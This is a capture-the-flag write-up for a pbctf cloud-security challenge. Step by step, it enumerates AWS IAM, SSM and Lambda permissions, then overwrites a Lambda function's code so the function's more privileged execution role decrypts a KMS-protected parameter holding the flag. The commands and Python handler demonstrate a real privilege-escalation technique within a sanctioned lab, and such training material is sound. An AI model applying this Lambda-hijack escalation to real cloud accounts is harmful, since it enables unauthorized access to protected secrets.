# Shreyas and his Vault of Shifting Echoes

**Category:** Cloud Security  
**Difficulty:** Medium  
**Points:** 500  

## Challenge Description


Shreyas built a vault where his treasure shifts with time's flow, hidden among decoys that clutter the storage halls. You have a broken key - a tool that can unlock the treasure but doesn't work properly. You can fix this key and use it, but you must be quick. The treasure's hiding spot follows a pattern in time. Find the pattern, repair your key to follow it, and claim the prize before it moves again.
> 
> **Note:** Install AWS CLI and configure it with credentials from: `creds.pbctf.live`


## Solution Path

### Step 1: Initial Setup and Reconnaissance

First, lets obtain the AWS credentials from the provided endpoint and configure AWS CLI:



```bash
aws configure
```


Let's start by exploring what resources we have access to:

```bash
aws sts get-caller-identity
```


### Step 2: Permission Enumeration
Let's see what permissions we have:

```bash
aws iam list--user-policies --user-name pbctf-participant-27
```

```json
{
    "PolicyNames": [
        "pbctf-participant-27-policy"
    ]
}
```

```bash
aws iam get-user-policy --user-name pbctf-participant-27 --policy-name pbctf-participant-27-policy
```



From the policy, we can see we have:

- SSM parameter access under /pbctf/ path in ap-south-1 region
- Lambda function permissions (update code, invoke, get function) - but only for our specific function pbctf-participant-27
- Explicit KMS deny (interesting!)
- IAM permissions to inspect our own user policies

### Step 3: Finding the "Vault"

The description mentions a "vault" - this is probably SSM Parameter Store given our permissions:

```bash
aws ssm get-parameters-by-path --path "/pbctf"
```




Excellent! We found a parameter with the name `/pbctf/flag.2025-08-11-15-25`(But Why is there is a timestamp appended at the end?, It's showing nearly the current time - is it updating frequently? 👀). 
The value is encrypted (SecureString), meaning there's a KMS key encrypting it, and will most likely fail to decrypt with our current permissions:

```bash
aws ssm get-parameter --name "/pbctf/flag.2025-08-11-15-25" --with-decryption
```



As expected, we are explicitly denied KMS access. But wait... the "broken key" mentioned in the description... maybe that refers to a lambda function based on our permission policy?

### Step 4: Discovering the Lambda Function
 
Looking at our permissions, we have Lambda access to a specific function. Let's check it out

```bash
aws lambda get-function --function-name pbctf-participant-27
```



Perfect! There's our Lambda function with description ""pbctf Challenge function for participant 27 - Vault of Shifting Echoes".

Notice that execution role! Maybe the function has higher privilages? Let's test by invoking it:

```bash
aws lambda invoke --function-name pbctf-participant-27 output.json
```

```bash
cat output.json
```



Seems like the code is basically empty, just returns a welcome message

### Step 5: Understanding the Time Pattern

Wait... the description mentioned "The treasure's hiding spot follows a pattern in time". Let's check if that timestamp we suspected has changed

```bash
aws ssm get-parameters-by-path --path /pbctf | grep Name
```



The timestamp changed indeed! This confirms the time pattern mentioned in the description. 

The parameter name follows the format:
flag.YYYY-MM-DD-HH-MM where the time increments every 5 minutes

This explains the challenge, we need to predict the current timestamp window to access the right parameter, but we can't decrypt it directly due to KMS restrictions.

### Step 6: Exploiting the Lambda Function

We are stuck, we can't decrypt the SSM parameter directly due to KMS restrictions, but we need to access the flag that rotates every 5 minutes. 
But Wait there is a possibility that the Lambda execution role might have different permissions than our user account! Maybe that's the very reason we have access to update it? The description mentions about the "broken key" that we must "repair", that could be the lambda function itself!

Let's craft a Lambda function that can decrypt the parameters:

```python
import json
import boto3
import datetime

def lambda_handler(event, context):
    ssm = boto3.client('ssm')
    now = datetime.datetime.utcnow()

    for offset in [0, -5]:
        ts = now + datetime.timedelta(minutes=offset)
        ts = ts.replace(minute=(ts.minute // 5) * 5, second=0, microsecond=0)
        name = ts.strftime("/pbctf/flag.%Y-%m-%d-%H-%M")
        try:
            val = ssm.get_parameter(Name=name, WithDecryption=True)['Parameter']['Value']
            return {'statusCode': 200, 'body': json.dumps({'name': name, 'value': val})}
        except ssm.exceptions.ParameterNotFound:
            pass

    return {'statusCode': 404, 'body': json.dumps({'error': 'Flag not found'})}

```
The function logic is straightforward, we calculate the current UTC time, round down to the nearest 5-minute window using and try both current and previous windows to handle timing edge cases. 

Lets hope this works, time to package and deploy it:

### Step 7: Deploying and Executing the Function

```bash
zip function.zip lambda_function.py

aws lambda update-function-code --function-name pbctf-participant-27 --zip-file fileb://function.zip
```



Now let's invoke our updated function:

```bash
aws lambda invoke --function-name pbctf-participant-27 output.json

cat response.json
```




Success! The Lambda function successfully retrieved and decrypted the flag since it indeed has elevated KMS permissions.

**Flag:** `pbctf{temp0ral_r3lay_t0_kms}`
